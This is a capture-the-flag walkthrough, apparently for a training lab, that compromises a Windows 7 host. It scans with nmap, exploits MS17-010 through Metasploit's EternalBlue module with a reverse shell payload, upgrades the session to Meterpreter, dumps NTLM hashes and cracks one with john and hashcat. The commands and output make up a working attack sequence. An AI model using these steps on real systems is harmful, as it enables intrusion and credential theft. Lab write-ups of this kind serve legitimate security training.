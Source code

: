 >Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

IP victim = 10.10.43.127
IP VM = 10.10.127.189

# Scan

`nmap -A 10.10.43.127
`
```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-10-02T06:46:36
|_Not valid after:  2024-04-02T06:46:36
|_ssl-date: 2023-10-03T06:51:34+00:00; 0s from scanner time.
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
```

```
Host script results:
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:53:17:e1:e2:67 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-03T01:51:35-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-03 07:51:35
|_  start_date: 2023-10-03 07:46:34
```

## Search for vulnerability

`nmap -sV --script vuln 10.10.43.127`

*NOTE: The scripts which come under the “vuln” category look for specific known vulnerabilities and only report back if any are identified in the target system.*

```
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown:


Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```


# Exploit

```
# run metasploit
mfsconsole

# search for an exploit
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution



# use the first one
msf6 > use 0

# set VICTIM IP and payload
set RHOSTS 10.10.43.127
set payload windows/x64/shell/reverse_tcp

# run exploit
run


```

==We have a reverse shell==

# Privilege escalation

Now, we have a reverse shell on metasploit : we need to escalate our priviledges --> ==we need to upgrade our NORMAL shell to METERPETER SHELL==.

==Meterpreter Shell offers the easiest ways to do some stuff in the compromised machine so, we want to get this Shell instead of Command Shell but most of the time after we exploit the machine we land into Command Shell.==

1. background session with `CTRL + z`
2. type `search shell_to_meterpreter`
3. `use 0` to select
4. `set SESSION 1` to indicate which session to upgrade
5. `run`


# Cracking and find flags

In meterpeter shell use `hashdump`:

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```

*This will dump all of the passwords on the machine as long as we have the correct privileges to do so.*

We note that Jon user is a non-default user (thus is 1000):
- 1 st field: username (Administrator, User1, etc.) 
- ==2 nd field: Relative Identification (RID): last 3-4 digits of the Security Identifier (SID), which are unique to each user ==
- 3 rd field: LM hash
- 4 th field: NTLM hash

## crack the hash

First, copy the hash dump to file `hash.txt`

1.  using john the ripper
	`john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
2. using hashcat
	`hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt

The result of both is:

```
alqfna22         (Jon)
```


`




